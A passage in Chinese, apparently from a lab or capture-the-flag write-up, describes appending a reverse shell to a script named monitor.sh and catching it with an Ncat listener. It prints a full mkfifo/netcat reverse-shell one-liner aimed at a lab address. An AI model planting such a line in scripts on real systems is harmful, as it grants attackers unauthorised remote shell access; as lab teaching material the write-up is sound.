 我用以下命令检查文件的内容:

```
cat monitor.sh
```

![Screenshot-2021-05-23-at-23.56.32](img/1297d859a9bd2754a4c93f4bbc9dcbba.png)

我决定将反向 shell 附加到这个文件的末尾:

```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14,110 1234 > /tmp/f" >> monitor.sh
```

![Screenshot-2021-05-24-at-00.10.19](img/8d4b6d772665bb5bc3c54b64b60bc76f.png)

我对文件进行了 cat，以检查它是否被正确地添加到了文件的末尾:

![Screenshot-2021-05-24-at-00.10.41](img/59c622cab33713bcada016204e1c2039.png)

我在端口 ****1234**** 上设置了一个********Ncat********监听器来捕捉我终端上的反向 shell 连接:

![Screenshot-2021-05-24-at-00.11.08](img/951adb4dd3d5400cc792a4bbd6bc05e8.png)
